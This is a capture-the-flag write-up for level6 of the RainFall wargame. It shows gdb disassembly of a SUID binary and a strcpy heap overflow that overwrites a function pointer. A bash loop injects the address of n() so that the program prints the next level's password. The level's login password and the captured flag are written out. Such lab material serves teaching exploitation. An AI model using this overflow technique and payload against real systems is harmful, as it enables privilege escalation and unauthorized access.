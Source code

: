 Login as `level6`.
```shell
┌──$ [~/42/2022/rainfall]
└─>  ssh 192.168.0.18 -p 4242 -l level6
level6@192.168.0.18's password: d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
```
A `SUID` executable is located in the home directory.
```shell
level6@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
```
By looking binary, three functions are defined.
1. `n()` function calls `system("/bin/cat /home/user/level7/.pass")`
2. `m()` function outputs a line "Nope" on `stdout`
3. `main()` which allocates 64 a 4 bytes, assign `m()` to a function pointer variable, calls `strcpy()` and finally calls function pointer.
```gdb
level6@RainFall:~$ gdb ./level6
(gdb) info functions
[...]
0x08048454  n
0x08048468  m
0x0804847c  main
[...]
(gdb) disassemble m
Dump of assembler code for function m:
   0x08048468 <+0>:	push   %ebp
   0x08048469 <+1>:	mov    %esp,%ebp
   0x0804846b <+3>:	sub    $0x18,%esp
   0x0804846e <+6>:	movl   $0x80485d1,(%esp) 
   0x08048475 <+13>:	call   0x8048360 <puts@plt>
   0x0804847a <+18>:	leave
   0x0804847b <+19>:	ret
End of assembler dump.
(gdb) x/s 0x80485d1
0x80485d1:	 "Nope"
(gdb) disassemble n
Dump of assembler code for function n:
   0x08048454 <+0>:	push   %ebp
   0x08048455 <+1>:	mov    %esp,%ebp
   0x08048457 <+3>:	sub    $0x18,%esp
   0x0804845a <+6>:	movl   $0x80485b0,(%esp)
   0x08048461 <+13>:	call   0x8048370 <system@plt>
   0x08048466 <+18>:	leave
   0x08048467 <+19>:	ret
End of assembler dump.
(gdb) x/s 0x80485b0
0x80485b0:	 "/bin/cat /home/user/level7/.pass"
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804847c <+0>:	push   %ebp
   0x0804847d <+1>:	mov    %esp,%ebp
   0x0804847f <+3>:	and    $0xfffffff0,%esp
   0x08048482 <+6>:	sub    $0x20,%esp
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt> # malloc(64)
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt> # malloc(4)
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   0x080484a5 <+41>:	mov    $0x8048468,%edx # edx = 0x8048468
   0x080484aa <+46>:	mov    0x18(%esp),%eax # eax = fnPointer
   0x080484ae <+50>:	mov    %edx,(%eax) # fnPointer = edx
   0x080484b0 <+52>:	mov    0xc(%ebp),%eax
   0x080484b3 <+55>:	add    $0x4,%eax
   0x080484b6 <+58>:	mov    (%eax),%eax
   0x080484b8 <+60>:	mov    %eax,%edx
   0x080484ba <+62>:	mov    0x1c(%esp),%eax
   0x080484be <+66>:	mov    %edx,0x4(%esp)
   0x080484c2 <+70>:	mov    %eax,(%esp)
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt> # strcpy(av[1], str)
   0x080484ca <+78>:	mov    0x18(%esp),%eax
   0x080484ce <+82>:	mov    (%eax),%eax
   0x080484d0 <+84>:	call   *%eax # fnPointer()
   0x080484d2 <+86>:	leave
   0x080484d3 <+87>:	ret
End of assembler dump.
```
SECURITY CONSIDERATIONS section on man page of `strcpy` indicates that the `strcpy()` can be misused in a manner which enables to change a running program's functionality through a buffer overflow attack.

By running executable with first argument containing 128 bytes, is seems that the value of function pointer is overwritten and program try to call something `0x41414141`.
```gdb
level6@RainFall:~$ gdb -q ./level6
Reading symbols from /home/user/level6/level6...(no debugging symbols found)...done.
(gdb) run $(python -c "print 'A'*128")
Starting program: /home/user/level6/level6 $(python -c "print 'A'*128")

Program received signal `SIGSEGV`, Segmentation fault.
0x41414141 in ?? ()
```
So, using address of `n()` function as argument it can be repeated n-times until it lay in right place.

Exploit and log on to the next level.
```shell
level6@RainFall:~$ for i in {0..100}; do ./level6 $(python -c "print '\x54\x84\x04\x08'*$i") | grep -v Nope && break; done
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
